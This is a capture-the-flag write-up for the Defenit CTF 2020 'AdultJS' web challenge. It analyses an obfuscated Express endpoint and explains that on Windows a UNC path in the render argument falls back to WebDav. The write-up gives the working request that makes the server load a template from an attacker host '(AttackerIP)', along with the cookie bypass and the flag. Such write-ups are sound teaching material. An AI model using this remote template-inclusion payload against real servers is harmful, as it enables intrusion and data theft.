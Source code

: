 # AdultJS
*Defenit CTF 2020 - Web ???*<br>
*Writeup by Payload as TryToEatSushi*


## Problem

Are you over 18?
This challenge is for adults :D

Hints <br>
 - Adult-JS is Served by Windows<br>
 - UNC Path

## Analyze Obfuscation

There are tooooooooo many endpoints in source code, we have to summary them first. With our teammate [@rbtree](https://twitter.com/RBTree_Pg_), we removed a garbage endpoints first.

We found that a function is different with other functions in `/61050c6ef9c64583e828ed565ca424b8be3c585d90a77e52a770540eb6d2a020`

```javascript

	app.post("/61050c6ef9c64583e828ed565ca424b8be3c585d90a77e52a770540eb6d2a020", (req, res) => {
	    try {
	        ae97ef205 = req.body.hcda7a4f9;
	        c43c4f0d2 = req.get("d28c3a2a7");
	        dd0372ef0 = req.range("g64aa5062");
	        f71f5ce80 = req.cookies.i77baba57;
	        ic9e2c145 = req.secure["eb4688e6f"];
	
	        fc4ebc0cc = {
	            b13a9706f: Function,
	            f635b63db: 15
	        };
	        ae9a8c19f = {
	            h4f3b2aa1: shared,
	            cf479eeba: this
	        };
	        h4a0a676e = Buffer.alloc(26);
	        h9b2a10f7 = Buffer.allocUnsafe(73);
	        f8c4d94cc = [
	            [
	                [
	                    [{
	                        cbee7d77b: this,
	                        e21888a73: shared
	                    }]
	                ]
	            ]
	        ];
	        dffbae364 = {
	            f13828fc5: Function,
	            cbcc2fbc6: 22
	        };
	        ib4cb72c9 = {
	            hdd2f9aa3: Function,
	            he404c257: 59
	        };
	        hf494292b = 'f7de2a815';
	        dd0372ef0 = dd0372ef0.gbae8c4d4
	        ic9e2c145 = ic9e2c145.d006e28f3
	
	        ae9a8c19f = assert(f71f5ce80);
	
	        res.render(ae97ef205);
	    } catch {
	        res.end('Error');
	    }
	});
```

We can give a template file in var `ae97ef205` which is from `req.body.hcda7a4f9`. Also we have to avoid `assert` directly before `res.render`, we have to set cookie `i77baba57` as non-falsy value.

## UNC, SMB and WebDav

This problem is running on Windows, which support UNC path to make file-related functions to be able to retrieve from remote. UNC uses SMB protocol as default, however when it fails, it tries WebDav over HTTP instead. With this, we can upload a hbs template file include `{{> FLAG }}` to our server, and let server to render it.

## Explotation

1. Configure WebDav server. I used apache2.
2. Upload a template file (flag.html)
3. Render it using the endpoint.

Actually, the flag of BabyJS is a great hint. The only problem is that I realized it after solving.

## Payload


`flag.html`
```
  {{> FLAG }}
```

```

POST /61050c6ef9c64583e828ed565ca424b8be3c585d90a77e52a770540eb6d2a020 HTTP/1.1
Host: adult-js3.ctf.defenit.kr
Cookie: i77baba57=123123
Content-Type: application/json

{"hcda7a4f9": "\\\\(AttackerIP)@80\\webdav\\flag"}


```




**`Defenit{AuduLt_JS-@_lo7e5_@-b4By-JS__##}`**

